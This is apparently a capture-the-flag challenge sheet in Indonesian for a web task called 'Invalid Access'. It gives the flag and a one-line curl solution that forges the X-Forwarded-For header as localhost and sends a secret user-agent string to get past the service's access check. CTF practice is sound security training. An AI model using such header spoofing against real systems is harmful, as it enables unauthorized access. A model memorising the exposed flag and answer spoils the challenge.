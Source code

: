 # Judul
**Invalid Access**

# Deskripsi

# Hint
-

# Note
Peserta hanya diberikan Web Service
link: ip_address:4001

# Difficulty
Ez/Medium

# Author
ZeroDiv

# Flag
KOMATIKCTF{3z_pZ_l3M0n_sQu33ze33!!!!}

# How to solve
curl --header "X-Forwarded-For: 127.0.0.1" http://35.187.248.149:4001/ --user-agent s3cr3t_ag3nt